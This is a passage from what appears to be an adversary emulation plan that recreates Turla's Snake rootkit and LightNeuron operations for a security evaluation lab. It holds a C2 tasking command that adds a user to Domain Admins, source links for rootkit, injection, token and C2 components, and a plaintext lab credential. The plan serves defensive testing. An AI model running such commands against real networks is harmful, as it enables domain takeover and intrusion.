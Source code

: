 ```bash
./evalsC2client.py --set-task 475e465e424557475b42 '{"type": 1, "command": "net group \"Domain Admins\" leshy /add /domain", "runas": "nk\\zilvinasadmin"}'
```

### :moyai: Source Code

* [Snake Installer](../../Resources/Snake/SnakeInstaller/README.md)
  * [Privilege Escalation](../../Resources/Snake/SnakeInstaller/src/privesc/privesc.cpp#L179)
  * [Disable DSE and Load Rootkit](../../Resources/Snake/SnakeInstaller/src/main.cpp#L63)
  * [Start Snake Rootkit Driver](../../Resources/Snake/SnakeInstaller/src/driver/driver.cpp#L111)
* [Snake Rootkit](../../Resources/Snake/README.md)
  * [Driver](../../Resources/Snake/SnakeDriver/SnakeDriver/driver.c#L76)
  * [Function Hooking](../../Resources/Snake/SnakeDriver/SnakeDriver/hooks.c#L31)
    * [Infinity Hook](../../Resources/Snake/SnakeDriver/libinfinityhook/README.md)
  * [Drop DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/filesystem.cpp#L22)
  * [Trigger injection on network request](../../Resources/Snake/SnakeDriver/SnakeDriver/wfp.cpp#L276)
  * [Inject Usermodule DLL](../../Resources/Snake/SnakeDriver/SnakeDriver/inject.cpp#L30)
* [Snake Usermodule DLL](../../Resources/Snake/UserModule/README.md)
  * [C2 communications over HTTP](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)
  * [Task download](../../Resources/Snake/UserModule/src/comms_http.cpp#L237)
  * [Task execution for generic process](../../Resources/Snake/UserModule/src/execute.cpp#L406)
  * [Task execution via cmd with optional token impersonation](../../Resources/Snake/UserModule/src/execute.cpp#L337)
  * [Token duplication](../../Resources/Snake/UserModule/src/execute_token.cpp#L284)
  * [Payload download](../../Resources/Snake/UserModule/src/comms_http.cpp#L604)
  * [File Upload](../../Resources/Snake/UserModule/src/comms_http.cpp#L359)
* [Mimikatz](../../Resources/Mimikatz)

### :microscope: Cited Intelligence

* TBD

## Test 13: Lateral Movement to Exchange Server and LightNeuron Capabilities

:microphone: `Voice Track:`

Test 13 emulates Turla laterally moving to the Exchange server, installing the LightNeuron implant there,
and sending several discovery commands to the LightNeuron implant and collecting and exfiltrating email traffic.

---

### ☣️ Procedures

:arrow_right: Start a new RDP session to `drebule (10.100.30.203)` as `ZilvinasAdmin`:

| Username   | Password |
| :--------: | :---------------: |
| nk\ZilvinasAdmin  | Producer2! |
